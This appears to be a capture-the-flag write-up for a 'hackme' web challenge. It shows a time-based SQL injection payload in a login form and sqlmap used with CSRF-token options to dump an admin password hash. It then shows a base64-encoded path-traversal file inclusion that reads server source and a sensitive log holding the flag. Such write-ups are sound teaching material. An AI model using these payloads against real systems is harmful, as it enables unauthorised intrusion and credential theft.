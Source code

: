 # Writeup for hackme

> Solves: 48
> 
> Hack me, please

The website contain only login form, without any other suspected content, so first impulse, sql injection.

![Screenshot_1.png](Screenshot_1.png)

We have seen only one returned value `User Name or Password incorrect` if sql query was correct. Checked time based SQLi in login input `a' OR if(1=1, sleep(10), false) OR 'a` positive, because execute this taken ~10 seconds.
We had assumed that was blind SQLi. (After CTF, another teams has shown that it was simple SQLi, blindSQLi was not necessary)

We have not had a lot of time, so we use sqlmap. Form had csrf token `<input type='hidden' name='user_token' value='40dbd5c24bcba5a579557884b60e50d8' />`, but that was not a problem for sqlmap with two extra params `--csrf-token="user_token" --csrf-url="http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/"`

In a few seconds, we got, what we need. 

```
Database: hack.me
Table: user
[1 entry]
+--------+-----------+----------+----------------------------------+
| userid | sessionid | username | password                         |
+--------+-----------+----------+----------------------------------+
| 1      | aaa       | admin    | 26a340b11385ebc2db3b462ec2fdfda4 |
+--------+-----------+----------+----------------------------------+
```

MD5 existed in web databases

![Screenshot_2.png](Screenshot_2.png)

After login for `admin` `catchme8`, unfortunately not came out flag, but interesting dashboard.

![Screenshot_3.png](Screenshot_3.png)

We did notice with great interest, that one menu link `help.pdf` had this route: `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=aGVscC5wZGY`. `aGVscC5wZGY` after base64 decode was `help.pdf`, looked like LFI. 

We encode `../index.php` to base64 `Li4vaW5kZXgucGhw`, open `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vaW5kZXgucGhw`, and get source of `index.php` into downloaded .pdf file.

One line in `index.php` was `shpaMessagePush("error: saved in sensitive_log_881027.txt");`. Interestingly, we again encode `../sensitive_log_881027.txt` to `Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0` and get this file by url `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0`. 

Downloaded file contained FLAG
